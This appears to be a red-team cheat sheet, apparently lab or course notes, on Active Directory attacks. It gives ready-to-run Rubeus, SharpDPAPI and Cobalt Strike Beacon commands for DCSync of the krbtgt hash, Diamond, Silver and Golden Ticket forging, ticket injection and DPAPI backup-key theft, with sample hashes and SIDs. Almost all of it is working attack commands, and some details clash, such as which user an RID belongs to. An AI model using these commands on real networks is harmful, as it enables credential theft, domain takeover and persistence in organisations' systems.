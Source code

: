     
##### DCSync

Obtain krbtgt hash and machine account hash
```powershell
dcsync dublin.contoso.com DUBLIN\krbtgt

dcsync contoso.com CONTOSO\lon-db-1$

512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c
bc6fd6e8519b52e09f60961beeee083a441c25908e30a6c29b124b516e06945f
cce3f72b3b4bcffe0af7979588b885b6
```

---
##### Diamond Ticket

> **From the medium-integrity Beacon**:

Use AES256 hash of the `krbtgt` account to create a diamond ticket
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /ticketuser:Administrator /ticketuserid:500 /domain:CONTOSO.COM /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:ab41d2c550af7cc84b40fd3b69daeab67e1662f7bf662fd1572dd1fa9e949a56 /ticketuser:nwallace /ticketuserid:4102 /domain:DUBLIN.CONTOSO.COM /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Diamond Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

---

##### DPAPI Backup Key Abuse

> From the medium-integrity Beacon

Within a Domain Admin session Recover the domain's backup DPAPI key.
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey

```

Drop the impersonation and use the key to decrypt credentials stored in the Credential Manager
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /pvk:
```

---
##### Silver Ticket

> This can be done locally offline on your machine

Use AES256 machine hash to forge silver ticket (any service can be used)
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/lon-db-1 /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Silver Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

### USING SERVICE ACCOUNT

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /user:MSSQLSvc /domain:dublin.contoso.com /password:Passw0rd!

[*] Action: Calculate Password Hash(es)

[*] Input password             : Passw0rd!
[*] Input username             : mssql_svc
[*] Input domain               : CONTOSO.COM
[*] Salt                       : CONTOSO.COMmssql_svc
[*]       rc4_hmac             : FC525C9683E8FE067095BA2DDC971889
[*]       aes128_cts_hmac_sha1 : 53B5F3804FBF13E7DD624E71D18DF9BB
[*]       aes256_cts_hmac_sha1 : E4A51DAD46B6D1BA85627EEC82991C8FC94C279CE06140751E02BA015E6A21F9
[*]       des_cbc_md5          : DF91ECCDAE70BA0E
```

Then forge the service ticket for MSSQLSvc/dub-sql-2.dublin.contoso.com.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:MSSQLSvc/dub-sql-2.dublin.contoso.com /rc4:FC525C9683E8FE067095BA2DDC971889 /user:nwallace /id:4102 /groups:513,1106,1107,4602 /domain:CONTOSO.COM /sid:S-1-5-21-2958544638-1589230383-838459903 /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:MSSQLSvc/dub-sql-2.dublin.contoso.com /rc4:FC525C9683E8FE067095BA2DDC971889 /user:nwallace /ldap /domain:dublin.contoso.com /sid:S-1-5-21-2958544638-1589230383-838459903 /nowrap

```

Where:

- `/id` is the RID for rsteel.
    
- `/groups` are the RIDs of rsteel's group membership.  513 is 'Domain Users', 1106 is 'Workstation Admins', 1107 is 'Server Admins', and 4602 is 'Database Admins'.

```powershell
make_token DUBLIN\nwallace FakePass

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist

execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:lon-db-1.contoso.com /m:info

```


---
##### Golden Ticket

> This can be done locally offline on your machine

Use AES256 hash of the `krbtgt` account to forge a golden ticket as the default DA
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject GOlden Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```